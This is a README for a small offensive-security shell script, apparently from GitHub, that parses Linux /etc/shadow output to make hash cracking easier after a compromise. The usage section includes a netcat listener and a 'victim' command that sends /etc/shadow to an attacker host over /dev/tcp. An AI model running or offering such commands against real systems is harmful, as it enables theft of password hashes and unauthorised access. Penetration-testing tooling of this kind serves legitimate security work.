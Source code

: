 # etcshash

> A shell script to parse the /etc/shadow file and automatically display the relevant information

This script aims to make post exploitation easier by parsing the `/etc/shadow` file and outputting the information in a concise way that makes steps like hash cracking easier

## Usage

Currently, the script only supports reading from stdin:
```sh
cat /etc/shadow | ./etcshash.sh
```
or output every field of the `/etc/shadow` file with the `-a` flag
```sh
cat /etc/shadow | ./etcshash.sh -a
```

as it reads from stdin it can also receive files sent e.g. from netcat:
```sh
# attacker machine:
nc -lvnp 1234 | ./etcshash.sh

# victim:
cat /etc/shadow > /dev/tcp/$ATTACKER/1234
```